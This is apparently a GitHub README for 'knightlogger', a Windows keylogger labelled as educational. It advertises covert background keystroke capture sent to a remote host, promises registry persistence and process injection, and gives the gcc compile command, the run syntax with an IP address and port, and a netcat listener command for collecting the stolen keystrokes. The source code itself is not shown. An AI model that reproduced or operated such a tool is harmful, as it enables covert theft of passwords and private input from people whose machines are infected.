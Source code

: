 # knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms
# options:
1- remote access keylogger 
2- works in background
additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`gcc -o knightlogger.exe knightlogger.cpp -lwsock32`

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

